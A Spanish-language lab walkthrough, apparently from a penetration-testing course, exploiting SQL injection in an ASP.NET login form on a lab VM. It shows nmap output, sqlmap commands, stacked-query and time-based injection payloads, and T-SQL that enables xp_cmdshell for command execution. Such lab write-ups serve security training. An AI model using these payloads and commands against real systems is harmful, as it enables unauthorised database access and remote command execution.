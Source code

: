 # Walk: SQL Injections Attacks - Module Exercise - VM 7

## Fecha: 29/01/2025
## Host: Windows
## IP: 192.168.197.50

---

## Objetivo
Capstone Lab: Enumerate the Module Exercise - VM #4 and exploit the SQLi vulnerability to get the flag.

---
## Herramientas
1. sqlmap
2. burp
3. impacket-mssqlclient
---
## Procedimiento y comandos
1. Paso 1: Enumeramos el host
```
nmap -sV --open 192.168.197.50

Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-29 10:03 -03
Nmap scan report for 192.168.197.50
Host is up (0.19s latency).
Not shown: 962 closed tcp ports (reset), 33 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.83 seconds

```
Encontramos un Servidor Windows, y una pagina web en el puerto 80. Navegando en ella encontramos un formulario de login a testear:
Header:

```
POST /login.aspx HTTP/1.1
Host: 192.168.197.50
Content-Length: 443
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.197.50
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.197.50/login.aspx
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

__VIEWSTATE=%2FwEPDwUKMjA3MTgxMTM4N2Rkqwqg%2FoL5YGI9DrkSto9XLwBOyfqn9AahjRMC9ISiuB4%3D&__VIEWSTATEGENERATOR=C2EE9ABB&__EVENTVALIDATION=%2FwEdAAS%2FuzRgA9bOZgZWuL94SJbKG8sL8VA5%2Fm7gZ949JdB2tEE%2BRwHRw9AX2%2FIZO4gVaaKVeG6rrLts0M7XT7lmdcb6wkDVQ%2BfPh1lhuA2bqiJXDjQ9KzSeE6SutA98NNH%2BM50%3D&ctl00%24ContentPlaceHolder1%24UsernameTextBox=duckman&ctl00%24ContentPlaceHolder1%24PasswordTextBox=test123&ctl00%24ContentPlaceHolder1%24LoginButton=Login

```
Comando **sqlmap** para revisar los parametros:
```
 sqlmap -u "http://192.168.197.50/login.aspx" --method=POST \
--data="__VIEWSTATE=%2FwEPDwUKMjA3MTgxMTM4N2Rkqwqg%2FoL5YGI9DrkSto9XLwBOyfqn9AahjRMC9ISiuB4%3D&__VIEWSTATEGENERATOR=C2EE9ABB&__EVENTVALIDATION=%2FwEdAAS%2FuzRgA9bOZgZWuL94SJbKG8sL8VA5%2Fm7gZ949JdB2tEE%2BRwHRw9AX2%2FIZO4gVaaKVeG6rrLts0M7XT7lmdcb6wkDVQ%2BfPh1lhuA2bqiJXDjQ9KzSeE6SutA98NNH%2BM50%3D&ctl00%24ContentPlaceHolder1%24UsernameTextBox=duckman&ctl00%24ContentPlaceHolder1%24PasswordTextBox=test123&ctl00%24ContentPlaceHolder1%24LoginButton=Login" \
-p "ctl00\$ContentPlaceHolder1\$UsernameTextBox,ctl00\$ContentPlaceHolder1\$PasswordTextBox" \
--headers="Cache-Control: max-age=0; Accept-Language: en-US,en;q=0.9; Origin: http://192.168.197.50; Content-Type: application/x-www-form-urlencoded; Upgrade-Insecure-Requests: 1; User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36; Referer: http://192.168.197.50/login.aspx; Accept-Encoding: gzip, deflate, br; Connection: keep-alive" \
--level=5 --risk=3 --batch

```
Encontramos del comando **sqlmap** lo siguiente:
```
POST parameter 'ctl00$ContentPlaceHolder1$UsernameTextBox' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 1154 HTTP(s) requests:
---
Parameter: ctl00$ContentPlaceHolder1$UsernameTextBox (POST)
    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: __VIEWSTATE=/wEPDwUKMjA3MTgxMTM4Nw9kFgJmD2QWAgIDD2QWAgIBD2QWAgIHDw8WAh4EVGV4dAUmSW52YWxpZCBjcmVkZW50aWFscy4gUGxlYXNlIHRyeSBhZ2Fpbi5kZGQBPTdMqS5Ul3SMNtGtg/P/yY/9wvvPLFKzxx1KQ5PYkQ==&__VIEWSTATEGENERATOR=C2EE9ABB&__EVENTVALIDATION=/wEdAAQA5q3sooTDd3D4bXwYKaPSG8sL8VA5/m7gZ949JdB2tEE+RwHRw9AX2/IZO4gVaaKVeG6rrLts0M7XT7lmdcb6SyIHr1g9J2ichD+sXBOsOsW4EtI0XDMY3uBxZiCrp80=&ctl00$ContentPlaceHolder1$UsernameTextBox=duckman';WAITFOR DELAY '0:0:5'--&ctl00$ContentPlaceHolder1$PasswordTextBox=test123&ctl00$ContentPlaceHolder1$LoginButton=Login

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: __VIEWSTATE=/wEPDwUKMjA3MTgxMTM4Nw9kFgJmD2QWAgIDD2QWAgIBD2QWAgIHDw8WAh4EVGV4dAUmSW52YWxpZCBjcmVkZW50aWFscy4gUGxlYXNlIHRyeSBhZ2Fpbi5kZGQBPTdMqS5Ul3SMNtGtg/P/yY/9wvvPLFKzxx1KQ5PYkQ==&__VIEWSTATEGENERATOR=C2EE9ABB&__EVENTVALIDATION=/wEdAAQA5q3sooTDd3D4bXwYKaPSG8sL8VA5/m7gZ949JdB2tEE+RwHRw9AX2/IZO4gVaaKVeG6rrLts0M7XT7lmdcb6SyIHr1g9J2ichD+sXBOsOsW4EtI0XDMY3uBxZiCrp80=&ctl00$ContentPlaceHolder1$UsernameTextBox=duckman' WAITFOR DELAY '0:0:5'-- OMmo&ctl00$ContentPlaceHolder1$PasswordTextBox=test123&ctl00$ContentPlaceHolder1$LoginButton=Login
---
[10:01:53] [INFO] testing Microsoft SQL Server
[10:01:53] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[10:01:59] [INFO] confirming Microsoft SQL Server
[10:02:04] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 11 or 2022 or 2016 or 2019 or 10
web application technology: Microsoft IIS 10.0, ASP.NET 4.0.30319, ASP.NET
back-end DBMS: Microsoft SQL Server 2019
[10:02:04] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1 times

```
Encantramos un parametro vulnerabla a dos tipos de inyecciones, lo cual nos da dos vectores de ataque posibles:
 - Vector de Ataque Inicial (Stacked Queries) → Permite ejecutar múltiples consultas en una sola ejecución.
 - Alternativa en caso de restricciones: Time-Based Blind → Se basa en la demora de respuestas para inferir datos.

2. Paso 2: Enumeracion de la base de datos.
- Bases de datos disponibles
```
sqlmap -u "http://192.168.197.50/login.aspx" --method=POST \
--data="__VIEWSTATE=...&ctl00$ContentPlaceHolder1$UsernameTextBox=duckman*&ctl00$ContentPlaceHolder1$PasswordTextBox=test123&ctl00$ContentPlaceHolder1$LoginButton=Login" \
-p "ctl00$ContentPlaceHolder1$UsernameTextBox" --dbs --batch
```
De este comando obtenemos un par de errores:
```
[12:16:49] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
[12:16:49] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
[12:16:49] [INFO] testing if the target URL content is stable
[12:16:49] [INFO] target URL content is stable
[12:16:49] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[12:16:49] [WARNING] (custom) POST parameter '#1*' does not appear to be dynamic
[12:16:50] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be injectable
...

[12:17:09] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
[12:17:09] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 89 times
...

```
Parece que el servidor está devolviendo un HTTP 500 (Internal Server Error), lo que puede significar varias cosas:

    1. El WAF/IPS está bloqueando los intentos de inyección SQL.
    2. El payload que se está enviando está generando un error en el backend.
    3. La inyección SQL funciona, pero el servidor tiene una mala configuración y no está devolviendo los errores correctamente.

Procedemos a aumentar la agresividad de la enumeracion:
```
sqlmap -u "http://192.168.197.50/login.aspx" --method=POST \
--data="__VIEWSTATE=...&ctl00$ContentPlaceHolder1$UsernameTextBox=duckman*&ctl00$ContentPlaceHolder1$PasswordTextBox=test123&ctl00$ContentPlaceHolder1$LoginButton=Login" \
-p "ctl00$ContentPlaceHolder1$UsernameTextBox" --dbs --level=5 --risk=3 --batch
```
y fallamos rotundamente.. parece que hay un waf/ips que impide enumerar.. probamos checkear si xp_cmdshell esta disponible:
```
sqlmap -r header-VM7.txt -p ctl00\$ContentPlaceHolder1\$UsernameTextBox --batch --dbms=mssql --sql-shell
...
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: ctl00$ContentPlaceHolder1$UsernameTextBox (POST)
    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: __VIEWSTATE=/wEPDwUKMjA3MTgxMTM4Nw9kFgJmD2QWAgIDD2QWAgIBD2QWAgIHDw8WAh4EVGV4dAUmSW52YWxpZCBjcmVkZW50aWFscy4gUGxlYXNlIHRyeSBhZ2Fpbi5kZGQBPTdMqS5Ul3SMNtGtg/P/yY/9wvvPLFKzxx1KQ5PYkQ==&__VIEWSTATEGENERATOR=C2EE9ABB&__EVENTVALIDATION=/wEdAAQA5q3sooTDd3D4bXwYKaPSG8sL8VA5/m7gZ949JdB2tEE+RwHRw9AX2/IZO4gVaaKVeG6rrLts0M7XT7lmdcb6SyIHr1g9J2ichD+sXBOsOsW4EtI0XDMY3uBxZiCrp80=&ctl00$ContentPlaceHolder1$UsernameTextBox=duckman';WAITFOR DELAY '0:0:5'--&ctl00$ContentPlaceHolder1$PasswordTextBox=test123&ctl00$ContentPlaceHolder1$LoginButton=Login

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: __VIEWSTATE=/wEPDwUKMjA3MTgxMTM4Nw9kFgJmD2QWAgIDD2QWAgIBD2QWAgIHDw8WAh4EVGV4dAUmSW52YWxpZCBjcmVkZW50aWFscy4gUGxlYXNlIHRyeSBhZ2Fpbi5kZGQBPTdMqS5Ul3SMNtGtg/P/yY/9wvvPLFKzxx1KQ5PYkQ==&__VIEWSTATEGENERATOR=C2EE9ABB&__EVENTVALIDATION=/wEdAAQA5q3sooTDd3D4bXwYKaPSG8sL8VA5/m7gZ949JdB2tEE+RwHRw9AX2/IZO4gVaaKVeG6rrLts0M7XT7lmdcb6SyIHr1g9J2ichD+sXBOsOsW4EtI0XDMY3uBxZiCrp80=&ctl00$ContentPlaceHolder1$UsernameTextBox=duckman' WAITFOR DELAY '0:0:5'-- OMmo&ctl00$ContentPlaceHolder1$PasswordTextBox=test123&ctl00$ContentPlaceHolder1$LoginButton=Login
---
[14:18:30] [INFO] testing Microsoft SQL Server
[14:18:30] [INFO] confirming Microsoft SQL Server
[14:18:30] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 11 or 2016 or 2019 or 10 or 2022
web application technology: ASP.NET, Microsoft IIS 10.0, ASP.NET 4.0.30319
back-end DBMS: Microsoft SQL Server 2019
[14:18:30] [INFO] calling Microsoft SQL Server shell. To quit type 'x' or 'q' and press ENTER
sql-shell> 

```
Y obtenemos un shell para activar xp_cmdshell!:
```
'EXECUTE sp_configure 'show advanced options', 1; -- 
'RECONFIGURE; --
'EXECUTE sp_configure 'xp_cmdshell', 1; --
'RECONFIGURE; --
'EXECUTE xp_cmdshell 'whoami'; --

```

---
## Troubleshooting

---
## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

